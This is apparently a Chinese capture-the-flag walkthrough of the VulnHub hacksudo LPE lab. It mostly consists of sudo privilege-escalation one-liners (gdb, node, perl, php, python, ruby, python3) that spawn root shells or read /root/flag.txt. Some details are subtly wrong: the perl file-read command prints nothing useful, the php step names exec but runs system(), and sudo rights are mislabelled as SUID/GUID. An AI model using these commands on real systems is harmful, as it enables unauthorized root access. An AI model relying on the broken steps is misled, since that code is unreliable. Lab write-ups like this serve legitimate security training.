下载地址：https://download.vulnhub.com/hacksudo/hacksudoLPE.zip
主机发现
使用 arp-scan 扫描局域网存活主机：
arp-scan -l

端口扫描
nmap 全端口扫描：
nmap --min-rate 10000 -p- 192.168.21.148

服务与漏洞扫描：


SSH 登录
SSH 连接靶机，查看 Challenge-3 的提权提示：
ssh kendo@192.168.21.148


Challenge-3 中 user 拥有 7 个 SUID/GUID 命令的 sudo 权限，分别是 gdb、node、perl、php、python、ruby、python3。下面逐一演示每一条命令的提权过程。
gdb
gdb 是 GNU 调试器，可用于调试程序。查看 sudo -l 确认权限：
sudo -l

gdb 可通过执行任意代码实现提权。在 gdb 中执行 shell 命令：
sudo gdb -nx -ex '!sh' -ex quit


或者使用 gdb 的 python 扩展：
sudo gdb -batch -ex 'python import os; os.system("/bin/bash")'

node
Node.js 是 JavaScript 运行时环境，可用于执行任意 JS 代码。确认 sudo 权限：
sudo -l

利用 node 执行代码读取 flag 文件：
sudo node -e 'console.log(require("fs").readFileSync("/root/flag.txt", "utf8"))'

或者使用 child_process 模块执行系统命令：
sudo node -e 'require("child_process").execSync("/bin/bash", {stdio: "inherit"})'





perl
Perl 是一款功能强大的脚本语言。确认 sudo -l 输出中包含 perl：
sudo -l

利用 perl 执行系统命令提权：
sudo perl -e 'system("/bin/bash")'


也可以通过 Perl 读取文件：
sudo perl -e 'open(F,"/root/flag.txt");print'



php
PHP 是通用脚本语言，可通过命令行执行代码。确认 sudo -l 输出：
sudo -l
使用 php 的 exec 函数执行系统命令：
sudo php -r 'system("/bin/bash");'



同样可以通过 php 读取敏感文件：
sudo php -r 'echo file_get_contents("/root/flag.txt");'


python
Python 解释器允许执行任意代码。确认 sudo 权限：
sudo -l

使用 os.system 调用 bash：
sudo python -c 'import os; os.system("/bin/bash")'



也可使用 subprocess 模块：
sudo python -c 'import subprocess; subprocess.call(["/bin/bash"])'

ruby
Ruby 是动态脚本语言，同样可用于提权。确认 sudo -l 输出：
sudo -l

利用 ruby 的 exec 函数直接替换进程为 bash：
sudo ruby -e 'exec "/bin/bash"'

也可使用 IO.popen 或 system 方法：
sudo ruby -e 'system("/bin/bash")'


python3
python3 与 python 用法一致，确认 sudo 权限：
sudo -l

提权命令同 python：
sudo python3 -c 'import os; os.system("/bin/bash")'



至此，Challenge-3 全部 7 个 SUID/GUID 提权命令（gdb、node、perl、php、python、ruby、python3）均已演示完毕。利用方式参考 GTFOBins 获取更多细节。